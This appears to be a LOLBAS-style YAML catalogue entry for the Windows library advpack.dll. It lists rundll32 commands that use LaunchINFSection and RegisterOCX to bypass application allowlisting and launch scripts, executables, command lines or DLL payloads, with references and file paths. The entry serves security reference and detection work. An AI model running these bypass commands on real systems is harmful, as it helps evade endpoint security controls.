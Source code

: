 ```yaml
---
name: advpack.dll
description: Legitimately used for installing of software and drivers.
functions:
  awl-bypass:
    - description: Execute the specified (local or remote) .wsh/.sct script with scrobj.dll in the .inf file by calling an information file directive (section name specified).
      code: rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,
    - description: Execute the specified (local or remote) .wsh/.sct script with scrobj.dll in the .inf file by calling an information file directive (DefaultInstall section implied).
      code: rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,,1,
  execute:
    - description: Launch executable by calling the RegisterOCX function.
      code: rundll32.exe advpack.dll,RegisterOCX calc.exe
    - description: Launch command line by calling the RegisterOCX function.
      code: rundll32 advpack.dll, RegisterOCX "cmd.exe /c calc.exe"
    - description: Launch a DLL payload by calling the RegisterOCX function.
      code: rundll32.exe advpack.dll,RegisterOCX test.dll
resources:
    - resource: https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/
    - resource: https://twitter.com/ItsReallyNick/status/967859147977850880
    - resource: https://twitter.com/bohops/status/974497123101179904
    - resource: https://twitter.com/moriarty_meng/status/977848311603380224
    - resource: https://github.com/LOLBAS-Project/LOLBAS-Project.github.io/blob/master/_lolbas/Libraries/Payload/Advpack.inf
    - resource: https://github.com/LOLBAS-Project/LOLBAS-Project.github.io/blob/master/_lolbas/Libraries/Payload/Advpack_calc.sct
fullpath: 
    - path: c:\windows\system32\advpack.dll
    - path: c:\windows\syswow64\advpack.dll
notes: Thanks to Jimmy - @bohops (LaunchINFSection), fabrizio - @0rbz_ (RegisterOCX - DLL), Moriarty @moriarty_meng (RegisterOCX - Cmd), Nick Carr - @ItsReallyNick
---
```


